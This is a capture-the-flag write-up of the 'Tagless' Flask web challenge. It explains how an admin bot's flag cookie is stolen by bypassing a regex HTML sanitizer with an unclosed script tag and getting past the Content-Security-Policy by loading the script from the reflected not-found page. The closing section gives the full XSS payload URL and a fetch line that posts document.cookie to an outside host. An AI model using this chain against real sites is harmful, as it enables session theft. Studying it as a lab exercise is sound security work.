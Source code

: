 Solves: Tagless(web)
# Tagless
#misc/admin-bot 
This challenge was a web challenge involving flask. This was my first ctf where challenges needed to be launched and had a time limit, leading to some confusion when accessing the challenge instance. A good learning point from this was to always attempt to reproduce the challenge locally, if possible.
This challenge had 3 important endpoints:
`/`
* The index page, which seems to display whatever message you supply in an iframe
* ![[Pasted image 20240826210809.png]]
`/report`
*  Seems to get the bot to visit a localhost url
```python
@app.route("/report", methods=["POST"])  
def report():  
    bot = Bot()  
    url = request.form.get('url')  
    if url:  
        try:  
            parsed_url = urlparse(url)  
            print("visiting ", parsed_url)  
        except Exception:  
            return {"error": "Invalid URL."}, 400  
        if parsed_url.scheme not in ["http", "https"]:  
            return {"error": "Invalid scheme."}, 400  
        if parsed_url.hostname not in ["127.0.0.1", "localhost"]:  
            return {"error": "Invalid host."}, 401  
        bot.visit(url)  
        bot.close()  
        return {"visited":url}, 200  
    else:  
        return {"error":"URL parameter is missing!"}, 400
```
`/<anything else>`
*  Small yet important, it simply tells you the `url path` you supplied was not found
Next,  we need to find where the flag is stored. Searching around, you find this in `bot.py`
```python
class Bot:  
    def __init__(self):  
		...
    def visit(self, url):  
        self.driver.get("http://127.0.0.1:5000/")  
        self.driver.add_cookie({  
            "name": "flag",   
            "value": "SEKAI{dummy}",   
            "httponly": False    
		})   
		self.driver.get(url)  
        time.sleep(1)  
        self.driver.refresh()
```
This is where the `report` endpoint comes in handy, as it gets the bot to first visit and add a cookie to  itself, then open a corresponding url supplied. If we want any chance of stealing the cookie,  the url we visit must be the same url the cookie was added to (localhost). From there, we need some way to exfiltrate the cookie. 
Looking back at `/`, we  find that the js script linked to the file also takes the query parameter `auto_input` to fill up the iframe. This is valuable as it allows us to inject any html we wish just using the url, e.g. when using `/report`. However, It is also worth noting all input is sanitized by
```js
function sanitizeInput(str) {  
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, '');   
    return str;  
}
```
, which seems to strip all text that resembles html tags. What if we supplied an incomplete tag, and let the browser close it for us?
![[Pasted image 20240826212534.png]]
Simple, right? Now we can provide a script tag with its src pointing to our payload to extract the cookie. But nope. Unfortunately, all requests are given these pesky CSP headers, preventing both scripts from other urls and inline scripts from running
```python
@app.after_request  
def add_security_headers(resp):  
    resp.headers['Content-Security-Policy'] = "script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;"  
    return resp
```
We could have to find a way to get the script to fulfill this csp, which is where
the url not found page comes in handy. Since any unknown path is reflected back in the page content as text, we could use that as the source of the payload, without any CSP violation. 
![[Pasted image 20240826213241.png]]
This is still not valid js, so we need to mangle the url further
![[Pasted image 20240826213351.png]]
### Conclusion
We have this js:
```js
fetch('URL HERE', {body: document.cookie, method: 'POST'});
```
The url payload:
`http://127.0.0.1:5000/?fulldisplay=j&auto_input=http://127.0.0.1:5000/**/JS HERE//;`
We get the final url for `/report`:
`http://127.0.0.1:5000/?fulldisplay=j&auto_input=<script src="http://127.0.0.1:5000/**/fetch('***', {body: document.cookie, method: 'POST', mode:'no-cors'});//"//`
, giving us the flag.
> Notes:
> - I should've used a get request to make my life easier. I have also discovered `Nagivator.sendBeacon()` which seems like a quick and easy way to do requests.
> - Mixing `localhost` and `127.0.0.1` is not ideal, despite them both pointing to the same thing
